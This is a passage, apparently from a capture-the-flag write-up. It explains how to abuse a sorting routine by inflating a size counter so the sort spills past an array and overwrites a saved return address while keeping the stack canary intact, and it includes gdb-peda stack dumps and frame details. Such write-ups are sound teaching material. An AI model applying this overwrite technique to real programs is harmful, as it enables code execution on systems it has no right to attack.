 
Essentially what we will do is, we will write a greater value to `heapQt` than `64`, that way it will start sorting data past `ptrArray`. Specifically, we will get it to place an address that we want where the return address is stored at `ebp+0x4`, which will give us code execution. We will also need to make sure the sorting algorithm leaves the stack canary in the same place, otherwise the binary will crash before we get code execution.

```
gdb-peda$ x/152x 0xff8969b8
0xff8969b8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969c8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969d8: 0x00000000  0xff820d84  0x00000000  0xc0370000
0xff8969e8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff8969f8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a08: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a18: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a28: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a38: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a48: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a58: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a68: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a78: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a88: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896a98: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896aa8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ab8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ac8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ad8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896ae8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896af8: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b08: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b18: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b28: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b38: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b48: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b58: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b68: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b78: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b88: 0x00000000  0xff820d84  0x00000000  0xff820d84
0xff896b98: 0x00000000  0xff820d84  0x00000000  0x00000000
0xff896ba8: 0x00000000  0x00000000  0x00000000  0x0804900a
0xff896bb8: 0xff896bd8  0x1d781100  0x0804c000  0xf7f41000
0xff896bc8: 0xff896bd8  0x08049841  0xff896bf0  0x00000000
0xff896bd8: 0x00000000  0xf7d81e81  0xf7f41000  0xf7f41000
0xff896be8: 0x00000000  0xf7d81e81  0x00000001  0xff896c84
0xff896bf8: 0xff896c8c  0xff896c14  0x00000001  0x00000000
0xff896c08: 0xf7f41000  0xf7f7975a  0xf7f91000  0x00000000
gdb-peda$ i f
Stack level 0, frame at 0xff896bd0:
 eip = 0x8049733 in game; saved eip = 0x8049841
 called by frame at 0xff896bf0
 Arglist at 0xff896bc8, args: 
 Locals at 0xff896bc8, Previous frame's sp is 0xff896bd0
 Saved registers:
  ebx at 0xff896bc0, ebp at 0xff896bc8, esi at 0xff896bc4, eip at 0xff896bcc
gdb-peda$ x/x $ebp-0xc
0xff896bbc: 0x1d781100
```
